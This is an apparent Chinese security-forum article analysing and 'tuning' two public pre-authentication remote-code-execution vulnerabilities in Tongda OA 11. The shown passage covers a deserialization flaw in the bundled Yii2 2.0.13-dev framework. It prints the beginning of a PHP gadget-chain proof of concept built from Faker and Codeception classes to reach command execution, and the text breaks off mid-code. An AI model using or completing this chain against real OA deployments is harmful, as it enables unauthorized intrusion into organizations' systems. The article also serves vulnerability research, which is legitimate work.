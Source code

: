 

# 奇安信攻防社区-【Web实战】对通达OA11前台RCE的两个漏洞的分析与调优

### 【Web实战】对通达OA11前台RCE的两个漏洞的分析与调优

对通达OA11前台RCE的两个漏洞的分析与调优，本文所涉及漏洞均为互联网上已公开漏洞,仅用于合法合规用途，严禁用于违法违规用途。

### 1\. 前台反序列化漏洞

#### 前言

由于已经有师傅对于如何触发反序列化的方法和代码进行了说明，这里我也就不拾人牙慧，主要谈一谈这里反序列化链的挖掘。具体的触发流程可以参考[https://mp.weixin.qq.com/s/nOQuqt\\\_mO0glY-KALc1Xiw](https://mp.weixin.qq.com/s/nOQuqt%5C_mO0glY-KALc1Xiw)  
目前网上也出现了一些分析反序列化链的分析，但是目前我看到的大部分分析走的反序列化链都是通达OA自己实现了一个redis的Connection类进行攻击的poc。但是这个链，我个人认为是不够完善的。因为首先这个链设计到了socket的连接问题，可能会有一定的不稳定性和延迟。其次这条链的序列化数据比较长。那么能不能通过yii2框架的自带的链子进行更加稳定的反序列化链的触发呢。先说答案可以，并且GitHub上也已经有了链子的构造。下面进行整条链子的分析流程分享。

#### 确定yii版本

首先通过参考师傅的审计思路，我们可以发现这里的yii2是2.0.13-dev。

![00.png](assets/1700187068-8338698930655b198af8d65066d6418f.png)  
看到是yii2的时候我就想着去偷个懒，毕竟这个框架之前爆出了很多反序列化的问题，到网上搜了一圈poc，发现没一个能打通的。这里我发现了一个问题，网上的poc基本上如下：

```php
<?php
namespace Faker{

    class DefaultGenerator{
        protected $default ;
        function __construct($argv)
        {
            $this->default = $argv;
        }
    }

    class ValidGenerator{
        protected $generator;
        protected $validator;
        protected $maxRetries;
        function __construct($command,$argv)
        {
            $this->generator = new DefaultGenerator($argv);
            $this->validator = $command;
            $this->maxRetries = 99999999;
        }
    }
}

namespace Codeception\Extension{
    use Faker\ValidGenerator;
    class RunProcess{
```